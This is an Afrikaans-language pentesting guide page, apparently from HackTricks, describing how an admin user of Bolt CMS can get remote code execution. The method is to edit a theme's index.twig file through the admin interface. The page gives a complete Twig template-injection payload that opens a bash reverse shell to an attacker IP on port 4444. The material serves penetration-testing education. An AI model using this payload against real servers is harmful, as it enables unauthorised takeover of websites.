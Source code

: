 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Na aanmelding as admin (gaan na /bot om die aanmeldprompt te bereik), kan jy RCE in Bolt CMS kry:

- Kies `Configuration` -> `View Configuration` -> `Main Configuration` of gaan na die URL pad `/bolt/file-edit/config?file=/bolt/config.yaml`
- Kontroleer die waarde van tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Kies `File management` -> `View & edit templates`
- Kies die tema basis wat in die vorige (`base-2021` in hierdie geval) stap gevind is en kies `index.twig`
- In my geval is dit in die URL pad /bolt/file-edit/themes?file=/base-2021/index.twig
- Stel jou payload in hierdie lêer via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), soos: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- En stoor veranderinge

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Maak die cache skoon in `Maintenance` -> `Clear the cache`
- Toegang weer die bladsy as 'n gewone gebruiker, en die payload behoort uitgevoer te word

{{#include ../../banners/hacktricks-training.md}}
